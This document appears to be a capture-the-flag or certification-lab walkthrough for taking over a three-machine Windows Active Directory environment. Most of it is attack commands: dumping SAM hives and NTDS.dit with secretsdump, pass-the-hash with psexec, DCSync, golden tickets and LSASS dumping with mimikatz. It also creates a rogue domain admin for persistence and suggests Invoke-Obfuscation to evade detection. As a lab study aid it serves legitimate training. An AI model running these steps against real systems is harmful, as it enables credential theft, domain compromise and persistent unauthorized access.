 Setup and Pre-Login Preparation

1. Log into VPN/Network Environment:  
    Connect to the network where the AD machines are hosted. This may be  
    provided via a VPN or directly if it’s a local lab setup.  
    Confirm network connectivity by pinging each machine in the set.
2. Credential-Based Login to Machine #1:  
    You have been given a username and password. Use it to try logging in  
    via:  
    RDP: if 3389 open

```PowerShell
xfreerdp /u:<username> /p:<password> /v:<Machine1_IP> 
```

  
WinRM (if allowed): if

- **5985/tcp** → WinRM over HTTP
- **5986/tcp** → WinRM over HTTPS (SSL)

```PowerShell
evil-winrm -i <Machine1_IP> -u <username> -p <password>
```

Machine #1 (10 Points) - Initial Foothold and Privilege  
Escalation  
Once logged into Machine #1, we’ll begin by performing some basic enumeration  
to understand the environment and seek ways to escalate privileges.  
Step 1: Basic Enumeration  
Hostname and IP Configuration:  
  
This will provide information about network configuration and potential subnet  
ranges to scan later.

```PowerShell
hostname
ipconfig /all
net user
```

Enumerate local users to understand available accounts and check for any  
inactive/legacy accounts that may have weak passwords.

```PowerShell
net view \\\\<Machine1_IP> 
Get-SmbShare -CimSession 10.10.11.35
```

Check for accessible network shares that may contain sensitive information or  
further login credentials.

Step 2: Privilege Escalation Techniques on Machine #1  
Technique 1: Service Misconfiguration  
Identify Services with Weak Permissions:

```PowerShell
sc query state= all | findstr "SERVICE_NAME"
```

If you find a vulnerable service that allows file modifications in its path,  
replace its executable with your own payload to gain higher privileges.

Technique 2: Password Hunting  
Search for Sensitive Files in Common Directories:  
Configuration files often contain clear-text passwords or connection strings  
with credentials. Look in  
C:\\ProgramData , C:\\Users\\All Users , and application-specific folders like  
C:\\Program Files .

```PowerShell
dir /s /b C:\\Users\\Public\\*.config
Get-ChildItem -Path C:\Users\Public -Filter *.config -Recurse -Force | Select-Object -ExpandProperty FullNam
```

Technique 3: Dumping SAM Database  
If you have administrative privileges or gain access to the SAM (Security  
Account Manager) file, try to dump it:

```PowerShell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

通常在渗透时，你会导出这几个 hive：

```PowerShell
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
reg save HKLM\SECURITY security
```

拿到这三个文件之后，就可以在本地用 **pypykatz** 或 **impacket-secretsdump** 来解析：

例如 pypykatz：

```Bash
pypykatz registry --sam sam --system system --security security
```

或者 secretsdump：

```Bash
impacket-secretsdump -sam sam -system system -security security LOCAL
```

Machine #2 - Intermediate Machine and AD  
Enumeration  
Assuming you now have credentials or a hash from Machine #1, we’ll attempt to  
log into Machine #2.  
Step 1: Lateral Movement to Machine #2  
Pass-the-Hash (PtH):  
If you obtained NTLM hashes, authenticate to Machine #2 without knowing  
the password:

```PowerShell
psexec.py <domain>/<username>@<Machine2_IP> -hashes <NT
LM_hash>
```

Credential Reuse:  
If you have plaintext credentials, log into Machine #2 using the same  
RDP/WinRM methods as for Machine #1.

Step 2: Active Directory Enumeration on Machine #2  
AD User Enumeration:  
PowerView ( Get-NetUser ) can be used to list all users in AD. Try:

```PowerShell
upload PowerView.ps1
 . .\PowerView.ps1
```

`PowerUp.ps1` is another PowerSploit script (like PowerView), but it’s focused on **privilege escalation checks** on Windows systems. It automates the discovery of common misconfigurations that could let you escalate from a normal user to SYSTEM or Administrator.

```PowerShell
upload powerup.ps1
. .\PowerUp.ps1
Invoke-AllChecks
Get-ModifiableServiceFile
Get-UnquotedService
Get-ModifiableService
Get-ModifiableRegistryAutoRun
Get-RegistryAlwaysInstallElevated
```

  

```PowerShell
Get-NetUser | Select Name, SamAccountName
Get-NetGroupMember -GroupName "Domain Admins"
```

Step 3: Privilege Escalation Techniques  
Technique 1: Group Policy Preferences (GPP) Abuse  
Check for cpassword in the SYSVOL share to obtain plaintext passwords stored  
in XML files.

```PowerShell
dir \\\\<domain>\\SYSVOL\\<domain>\\Policies\\ /s /b | fin
dstr cpassword
```

Technique 2: BloodHound Analysis  
Use SharpHound to gather data for BloodHound, which will help identify  
attack paths to privileged accounts:

```PowerShell
.\\SharpHound.exe -c All -d <domain> -u <username> -p <pas
sword> -f AllData
```

Upload the data to BloodHound and examine the graph for possible privilege  
escalation paths, especially for “Shortest Path to Domain Admins.”

Technique 3: Scheduled Task and Service Exploitation  
Check for any writable scheduled tasks or services that may allow privilege  
escalation:

```PowerShell
schtasks /query /fo LIST /v
```

Machine #3 - Domain Controller  
This machine is the Domain Controller, the ultimate target, where final credentials  
and flags are likely stored.

Step 1: Targeted AD Attacks on Domain Controller

  
Technique 1: DCSync Attack  
If you have privileges for Replicating Directory Changes , execute a DCSync attack  
using mimikatz :

```PowerShell
mimikatz # lsadump::dcsync /domain:<domain> /user:<target_
user>
```

Technique 2: Dumping the NTDS.dit Database  
Locate and Copy NTDS.dit:  
Find the NTDS.dit file (usually in C:\\Windows\\NTDS\\ ). Copy both NTDS.dit  
and the SYSTEM registry hive.  
Extract Credentials:  
Use [secretsdump.py](http://secretsdump.py/) to dump credentials from NTDS.dit:

```PowerShell
secretsdump.py -ntds NTDS.dit -system SYSTEM LOCAL
```

  

Step 2: Golden Ticket Attack for Persistent Access  
Create Golden Ticket with Mimikatz:

```PowerShell
kerberos::golden /domain:<domain> /sid:<domain_SID> /krbtg
t:<NTLM_hash> /user:Administrator
```

This attack will allow you to generate valid Kerberos tickets and impersonate  
any user indefinitely.

  

Step 3: Credential Harvesting with LSASS  
Dump LSASS to retrieve clear-text credentials directly:

```PowerShell
mimikatz # sekurlsa::logonPasswords
```

  

  

Post-Exploitation and Flag Collection

1. Flag Locations:  
    Check for flags on each machine, usually located in C:\\Users\\Public or  
    another specified directory.  
    Ensure to take screenshots as evidence and document each flag’s path.
2. Persistence Setup (If Required):  
    If allowed, create a new domain user and add them to privileged groups:

```PowerShell
net user new_admin <password> /add /domain
net group "Domain Admins" new_admin /add /domain
```

Additional Tips for Efficiency and Stealth

1. Use Stealthy Enumeration Tools:  
    Invoke-Obfuscation can obfuscate PowerShell scripts to bypass detection.
2. Document Everything:  
    Log all commands, paths, flags, and credentials obtained for accurate  
    reporting.
3. Alternative Login Techniques:  
    If RDP or WinRM fails, try SMBexec , CrackMapExec , or evil-winrm as fallback  
    methods
